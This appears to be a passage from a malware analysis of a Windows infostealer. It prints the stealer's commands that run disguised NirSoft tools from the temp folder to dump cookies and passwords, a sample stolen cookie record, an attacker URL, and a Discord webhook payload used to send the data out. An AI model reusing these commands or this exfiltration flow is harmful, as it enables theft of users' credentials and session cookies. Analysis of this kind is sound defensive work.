 * Creates {user}_history.txt with web browser history information and upload it to anonfiles

* Copy cookies created from the Nirsoft cookieviewer software. Depending on the output it has headers as  `Cookies Ex [Mix]:`, `Cookies file is empty.`, `No cookies found!`, saves it as {user}_cookies.txt and upload to anonfiles
  ```sh
  start %temp%\\winhlp32.exe /stext \"%temp%\\Cookies1\"
  start %temp%\\splwow64.exe /stext \"%temp%\\Cookies2\"
  start %temp%\\hh.exe /stext \"%temp%\\Cookies3\"
  exit
  ```

  ```
  ==================================================
  Host Name         : .google.com
  Path              : /
  Name              : NID
  Value             : 204=EFhTZlCxp2kRrlMq1FZf2Q3Jb2oRULjnyesclKjVHI9hmzDOEgdJJnK8EFNYB3uZMWZhMTgbUOR2rqfC99iCU-NzuziUpgrGzXo9XkkaJyOXvBvKJ4eFmKztMxgDY9A4tg5tzPQqe3tzkqJYfNzL5Bf94cldrym0Uvc-4g8nhKQ
  Secure            : Yes
  HTTP Only         : Yes
  Last Accessed     : 11/4/2020 3:48:55 AM
  Created On        : 9/28/2020 6:41:56 AM
  Expires           : 3/30/2021 6:41:56 AM
  ==================================================
  ```

* Copy's passwords collected from the nirsoft software and upload to anonfiles.
  ```sh
  start %temp%\\snuvcdsm.exe /stext \"%temp%\\%username%_Passwords.txt\"
  exit
  ```

* Creates and uploads data to discord as `username`, `avatar_url` `content`. The picture used for the avatar is called `ss.png`. Content can be password, cookies, history, SystemINFO.txt, screenshot.png

* Trying to read strings from `https://itroublvehacker.gq/bypass_stealer` 

* Creates a unique base64 ID of the systems MachineGuid, ProcessorID, and Serialnumber

* Search for .log, .ldb, .sqlite

* Send all the detail as Frank to Discord
  ```json
  # Example
  
  {
  	"username": "Frank",
  	"avatar_url": "ss.png",
  	"content": "Passwords",
    	"embeds": [
      {
        "title": "",
        "color": 1127128
      },
  }
  ```
